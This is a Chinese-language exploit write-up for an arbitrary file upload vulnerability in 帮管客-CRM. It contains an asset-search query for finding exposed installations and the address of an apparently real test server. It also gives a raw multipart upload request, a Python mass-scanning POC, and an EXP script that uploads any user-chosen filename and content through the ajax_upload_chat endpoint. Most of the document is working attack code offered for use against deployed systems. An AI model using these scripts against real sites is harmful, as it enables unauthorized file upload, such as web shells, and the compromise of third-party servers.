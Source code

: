 ## 一、资产搜索

```
product="帮管客-CRM"
```

## 二、网站测试

```
http://106.44.158.39:5051
```

## 三、验证漏洞

```
payload
/index.php/upload/ajax_upload_chat?type=image

headers
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryP85wZUzxCEb9PRNl

data
------WebKitFormBoundaryP85wZUzxCEb9PRNl
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: image/jpeg

test
------WebKitFormBoundaryP85wZUzxCEb9PRNl--
```

![image-20240914135005277](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914135005277.png)

![image-20240914135125337](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914135125337.png)

## 四、POC

```
def poc(target):
    payload = "/index.php/upload/ajax_upload_chat?type=image"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryP85wZUzxCEb9PRNl"
    }
    data = """------WebKitFormBoundaryP85wZUzxCEb9PRNl
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: image/jpeg

test
------WebKitFormBoundaryP85wZUzxCEb9PRNl--
    """
    proxies = {
        "http": "http://127.0.0.1:8080",
        "https": "http://127.0.0.1:8080"
    }
    res1 = requests.get(url=target,verify=False,timeout=5)
    try:
        res2 = requests.post(url=target+payload,headers=headers,data=data,verify=False,timeout=5)
        if res1.status_code == 200 and res2.status_code == 200:
            if "login" in res2.text or "html" in res2.text:
                print(f"[-]{target}不存在任意文件上传漏洞")
            else:
                res3 = json.loads(res2.text)
                if res3['code'] == 0:
                    with open("result.txt","a",encoding="utf-8") as f:
                        f.write(f"[+]{target}存在任意文件上传漏洞\n")
                        f.close()
                        print(f"[+]{target}存在任意文件上传漏洞")
                        return True
        else:
            print(f"网站{target}访问超时，请手工测试！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    payload = "/index.php/upload/ajax_upload_chat?type=image"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryP85wZUzxCEb9PRNl"
    }
    filename = input("请输入文件名：")
    txt = input("请输入文件内容：")
    data = f"""------WebKitFormBoundaryP85wZUzxCEb9PRNl
Content-Disposition: form-data; name="file"; filename="{filename}"
Content-Type: image/jpeg

{txt}
------WebKitFormBoundaryP85wZUzxCEb9PRNl--
        """
    proxies = {
        "http": "http://127.0.0.1:8080",
        "https": "http://127.0.0.1:8080"
    }
    res1 = requests.get(url=target, verify=False, timeout=5)
    try:
        res2 = requests.post(url=target + payload, headers=headers, data=data, verify=False, timeout=5,proxies=proxies)
        res3 = json.loads(res2.text)
        if "upload" in res3["data"]["src"]:
            print(f"上传成功\n地址为\n{target}"+res3["data"]["src"])

    except Exception as e:
        print(e)
```

## 六、测试结果

![image-20240914140656034](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914140656034.png)

![image-20240914140844956](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914140844956.png)